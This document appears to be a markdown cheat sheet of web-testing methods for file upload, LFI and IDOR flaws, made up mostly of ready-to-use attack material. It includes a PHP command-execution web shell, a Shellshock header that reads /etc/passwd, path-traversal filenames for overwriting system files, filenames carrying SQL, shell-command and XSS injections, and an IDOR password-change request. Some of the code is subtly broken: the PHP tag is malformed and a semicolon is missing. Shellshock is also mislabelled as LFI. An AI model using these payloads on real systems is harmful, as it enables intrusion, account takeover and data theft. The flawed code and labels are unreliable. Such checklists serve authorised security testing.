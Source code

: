 # Methodolgy: FILE UPLOAD

**> Subject: Path Traversal via File Upload**

> 1. Capture the file upload request
> 2. In the filename parameter, change filename to "../../filename" and 
> forward the request.
> 3. See, if the file is getting stored outside the expected directory, if 'yes', it is an issue.
> 4. Now, attempt to overwrite a system file and check if it is possible to overwrite the system file.

</br>

**> Subject: Bypassing File uploading restrictions**
> 1. If the application will only accept PDF, use HTML nullbyte filename extension <kbd> Example: example.html to example.html%00.pdf
> 2. Capture post request with Burp and change the <kbd> Content-type: text/html </kbd>

</br>

**> Subject: RCE from file upload**
> 1. Check File-type if JavaScript is present in profile pic and Create a hack.php file with below content and upload the file.
```
<?php>
    if(isset($_REQUEST['cmd'])){
        $cmd=($_REQUEST['cmd']);
        system($cmd);    
    } else {
        echo "RCE!!!!"
    }
```
> 2. Upload and replace CMD with your desired payload like sleep, timeout, etc

</br>

**> Subject: File Upload XSS in image uploading of App**
> 1. Go to App settings and select a html file with .jpg extension.
> 2. Capture upload request using Burp and change the file extension from .jpg to .html, additionaly change the content type to text/html and it will upload the file.
> 3. Open the link of upload image in new file and XSS will pop up.

```
POST /inventory/app_icon/upload/ HTTP/1.0
Host: app.mopub.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-CSRFToken: YZ8hbuu1vB9p5s1ni2vPZ5kMrhMqeDo5
X-Requested-With: XMLHttpRequest
Referer: https://app.mopub.com/inventory/app/97142808ce5d4ace895480a3ffe7d631/
Content-Length: 389
Content-Type: multipart/form-data; boundary=---------------------------1714461176134095862036612614
Cookie: [Cookie values]
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
-----------------------------1714461176134095862036612614
Content-Disposition: form-data; name="image_upload"; filename="xssfileuploadcopy.html"
Content-Type: text/html
HTML content
-----------------------------1714461176134095862036612614--
```
</br>

# Methodolgy: LFI

**> Subject: Transversal by User Agent**
> 1. Directory Transversal look for <kbd>GET /cgi-bin/status</kbd> 
> 2. Set the User-Agent to
```
User-Agent: {:;}; echo $(</etc/passwd)
```

</br>

**> Subject: Other vulnerabilities**
> 1. Set filename to ../../../tmp/lol.png and try to achieve a path traversal
> 2. Set filename to sleep(10) — -.jpg and you may be able to achieve a SQL injection.
> 3. Set filename to ```<svg onload=alert(document.domain)>``` to achieve a XSS
> 4. Set filename to ; sleep 10; to test some command injection
> 5. Uploading a file when another file with the same name already exists. This may show interesting error messages that can lead to information disclosure. Logical flaws might be found in the application renames the new file to keep it on the server.
> 6. Upload a directory with the .asp extension, then name the script within the directory with a permitted file extension, for example, folder.asp\file.txt
> 7. Uploading a file with a long name. This may show interesting error messages that can lead to information disclosure.
> 8. Uploading a file multiple times at the same time. This may show interesting error messages that can lead to information disclosure.
> 9. Uploading a “crossdomain.xml” or “clientaccesspolicy.xml” file can make a website vulnerable to cross-site content hijacking.
> 10. Upload XML file multiple times in order to identify any possible processing on the server-side.
> 11. Uploading files that may not be deleted easily such as “…:.jpg” in NTFS that makes the “…” file
> 12. Upload .jsp file into web tree — JSP code executed as the web user
> 13. Upload .gif file to be resized — image library flaw exploited
> 14. Upload huge files — file space denial of service
> 15. Upload file using malicious path or name — overwrite a critical file
> 16. Upload file containing personal data — other users access it
> 17. Upload file containing “tags” — tags get executed as part of being “included” in a web page
> 18. Upload .rar file to be scanned by antivirus — command executed on a server running the vulnerable antivirus software
> 19. Use different file names such has .php3,phtml, shell.p.phpp, shell.txt.jpg.png.asp, shell.txt.jpg.png.asp
> 20. Try long file names supermassivelongfileeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeename.php
> 21. Try to upload with huge file sizes

</br>

# Methodolgy: IDOR

**> Subject: IDOR in the password change functionality**
> 1. Try to change password and capture raw request with Burp Suite

```
POST /api/change_password HTTP/1.1
HOST: redacted.com
Cookie: ci_session= kefrsfdsdfmsdfldgh?h
Accept: application/json

{
    "account":"{username}",
    "password":"{password}"
}
```
> 2. Input any valid user account and input any password

